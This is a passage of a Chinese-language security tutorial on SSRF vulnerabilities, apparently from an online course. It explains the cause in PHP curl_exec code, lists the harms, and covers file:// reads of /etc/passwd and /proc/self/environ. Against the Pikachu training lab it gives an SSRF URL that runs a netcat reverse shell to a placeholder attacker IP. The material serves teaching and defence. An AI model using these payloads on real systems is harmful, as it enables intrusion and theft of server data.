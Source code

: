 漏洞的产生正是将 GET 参数 url 直接传递给 curl_exec 去访问，并调用 echo 将请求结果输出到页面，这正是设置"url=http://baidu.com"后，会打开百度的原因。

### SSRF 的危害

基于前面介绍的 SSRF 原理，我们可以梳理出它可能出现的一些危害。

* **内网探测**：对内网服务器、办公机进行端口扫描、资产扫描、漏洞扫描。

* **窃取本地和内网敏感数据**：访问和下载内网的敏感数据，利用 File 协议访问服务器本地文件。

* **攻击服务器本地或内网应用**：利用发现的漏洞进一步发起攻击利用。

* **跳板攻击**：借助存在 SSRF 漏洞的服务器对内或对外发起攻击，以隐藏自己真实 IP。

* **绕过安全防御**：比如防火墙、CDN（内容分发网络，比如加速乐、百度云加速、安全宝等等）防御。

* **拒绝服务攻击**：请求超大文件，保持链接 Keep-Alive Always。

你可以自己发挥脑洞去挖掘更多的可能的攻击场景，欢迎在留言区留言、讨论。

### 常见的利用与限制绕过方法

说了这么多，那我们来看一下 SSRF 漏洞常见的利用方法和绕过限制的手段。

#### 1.利用支持的 URL Schema 发起请求伪造

不仅仅只是常见的 http/https 协议，OWASP 曾整理过一份相对比较完整的 URL Schema，这里我发出来供你参考一下：

<Image alt="图片4.png" src="https://s0.lgstatic.com/i/image/M00/8D/9D/CgqCHmAADh6AFbrRAAIMts5NwrM049.png"/>  
图 4：常用于 SSRF 的 URL Scheme

在利用初期，你可以尝试下目标支持哪些 URL Schema，但有一点需要提醒下：**有些应用会自定义一些 URL Schema，如果它支持本地或网络地址请求，要注意避免遗漏掉**。

#### 2.读取本地文件

从图 4 可以看到，除了 http/https 协议外，File 也是各场景通用的伪协议，利用它我们可以读取服务器的本地文件，比如 /etc/passwd、/proc/self/environ......

<Image alt="Drawing 4.png" src="https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___JyAXxb8AAFuJktUmQY503.png"/>  
图 5：利用 SSRF 读取服务器本地文件

#### 3.攻击内网应用漏洞

前期可以利用 SSRF 漏洞对内网存活 IP 或域名进行漏洞扫描。以前在公司就曾遇到过这样一种情况：有些业务为了测试，在内网搭建了一些存在漏洞；或是有漏洞没有及时修复，理由是在内网没影响。然后，有一些被外部 SSRF 漏洞打进来了，利用了 Struts2 漏洞控制了内网服务器。

比如内网有一台存在代码执行漏洞（http://192.168.x.x/vul.php?cmd=whoami）的服务器未开外网，那么攻击者就可以利用 SSRF 漏洞来攻击该内网服务器。以 Pikachu 靶场 SSRF（curl）题目为例，可以构造如下链接来获取内网服务器的 shell 控制权限：

```java
http://localhost:8080/vul/ssrf/ssrf_curl.php?url=http://192.168.x.x/vul.php?cmd=nc [攻击者 ip] 4444 --e /bin/bash;
```

#### 4.绕过 IP 限制

有些网站可能会限制访问 IP，此时就可以尝试使用以下方法绕过：

